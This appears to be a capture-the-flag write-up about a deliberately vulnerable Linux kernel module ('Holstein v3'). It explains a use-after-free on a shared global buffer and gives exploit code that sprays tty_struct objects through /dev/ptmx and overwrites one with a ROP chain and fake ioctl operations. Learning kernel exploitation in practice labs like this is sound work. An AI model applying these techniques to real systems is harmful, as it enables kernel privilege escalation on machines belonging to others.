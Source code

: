 ## Holstein v3: Use After Free

## Table of Contents

- [Vulnerability module analysis](#vulnerability-module-analysis)
- [The ideas](#the-ideas)
- [Exploit code](#exploit-code)

## Vulnerability module analysis

```c
static ssize_t module_read(struct file *file,
                           char __user *buf, size_t count,
                           loff_t *f_pos)
{
  printk(KERN_INFO "module_read called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_to_user(buf, g_buf, count)) {
    printk(KERN_INFO "copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file,
                            const char __user *buf, size_t count,
                            loff_t *f_pos)
{
  printk(KERN_INFO "module_write called\n");

  if (count > BUFFER_SIZE) {
    printk(KERN_INFO "invalid buffer size\n");
    return -EINVAL;
  }

  if (copy_from_user(g_buf, buf, count)) {
    printk(KERN_INFO "copy_from_user failed\n");
    return -EINVAL;
  }

  return count;
}
```

As you can see, there is no no Heap Overflow now, the program checks the size of the input buffer before copying data from user space to kernel space. However, there is still a Use After Free vulnerability in the code `module_close`:

```c
static int module_close(struct inode *inode, struct file *file)
{
  printk(KERN_INFO "module_close called\n");
  kfree(g_buf);
  return 0;
}
```

In this function, the memory allocated for `g_buf` is freed using `kfree()`. But what if we open the device file multiple times and then close it? For example:

```c
fd1 = open("/dev/holstein", O_RDWR);
fd2 = open("/dev/holstein", O_RDWR);
close(fd1);
```

In this case the `g_buf` is overwritten when the second file descriptor is opened, and when we close the first file descriptor, the memory pointed to by `g_buf` is freed. However, the second file descriptor still holds a reference to the same memory location, which has now been freed. If we then try to read from or write to the device using the second file descriptor, we will be accessing memory that has already been freed, leading to a Use After Free vulnerability.

## The ideas

The idea to exploit this vulnerability is pretty simple, we open the device 2 times, then close the first file descriptor, after that spray for the `tty_struct` object to occupy the freed memory, finally we can read or write to the `tty_struct` object through the second file descriptor. Although after spraying, the `tty_struct` object is overlapped with `g_buf`, but we can't use `ioctl` with that `spray_fd` because the way we read and write to the device is through `g_buf`, this lead to some important elements in `tty_struct` changed. So to overcome this problem, just open 2 more file descriptors to the device, then close the second one, this will make the `tty_struct` object in a stable state:

```c
    logInfo("Overwriting tty_struct target-1 with ROP chain and fake ioctl ops");
    write(fd2, buf, 0x400);

    logInfo("UAF: open fd3, fd4; close fd3");
    fd3 = open("/dev/holstein", O_RDWR);
    fd4 = open("/dev/holstein", O_RDWR);
    if (fd3 < 0 || fd4 < 0) errExit("open");
    close(fd3); // kfree(g_buf)

    logInfo("Spray %d tty_struct objects", SPRAY_NUM / 2);
    for (int i = SPRAY_NUM / 2; i < SPRAY_NUM; i++)
    {
        _spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
        if (_spray[i] == -1)
            perror("open");
    }
```

You can view the diagram below for a better understanding:

![alt text](image.png)

## Exploit code

[:DD](./exp/)
